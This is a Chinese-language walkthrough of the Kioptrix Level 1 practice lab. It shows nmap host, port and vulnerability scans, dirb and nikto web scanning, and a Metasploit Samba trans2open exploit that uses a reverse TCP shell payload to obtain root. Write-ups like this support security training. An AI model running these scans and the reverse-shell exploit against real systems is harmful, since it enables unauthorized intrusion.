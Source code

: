 # 一、信息收集

1. 主机发现，如下，192.168.0.107是kali的ip，那么192.168.0.108就是靶机的ip了
   
   ```shell
   nmap -sn 192.168.0.1/24
   ```

2. 扫描端口，如下：系统Red-Hat，22端口OpenSSH版本2.9p2，80端口443端口Apache httpd版本1.3.20、mod_ssl版本2.8.4、OpenSSL版本0.9.6b，139端口netbios-ssn Samba smbd、1024端口rpc，其中看扫描结果samba应该是有漏洞的
   
   ```shell
   nmap -sV -sC -T4 192.168.0.108
   ```

3. nmap扫描一下主机漏洞情况，如下，有CVE-2011-1002、CVE-2014-0224、CVE-2015-4000、CVE-2014-3566、CVE-2009-3103
   
   ```shell
   nmap --script=vuln 192.168.0.108
   ```

4. 使用kali自带爆破工具dir扫描一下web目录
   
   ```shell
   dirb http://192.168.0.108
   ```

5. manual目录下存在目录遍历漏洞
   
   - usage目录下是Webalizer，一个网站服务器日志分析程序，发现一个域名kioptrix.level1和test.php文件，test文件需要通过域名才可以访问
   
   - 最后再使用nikto扫描一下web漏洞，漏洞还挺多
     ![13.png](./img/kioptrix_level_1/13.png)

# 二、getshell

1. 使用msf搜索上面发现的漏洞，发现CVE-2014-0224、CVE-2015-4000、CVE-2014-3566、samba都可以搜到，前面三个都是openssl的漏洞
    ![14.png](./img/kioptrix_level_1/14.png)

2. 使用exploit/linux/samba/trans2open进行攻击
   
   ```shell
   use exploit/linux/samba/trans2open
   set payload linux/x86/shell_reverse_tcp
   set rhost 192.168.0.108
   exploit
   ```

3. 如下，成功拿下root权限shell
    ![15.png](./img/kioptrix_level_1/15.png)
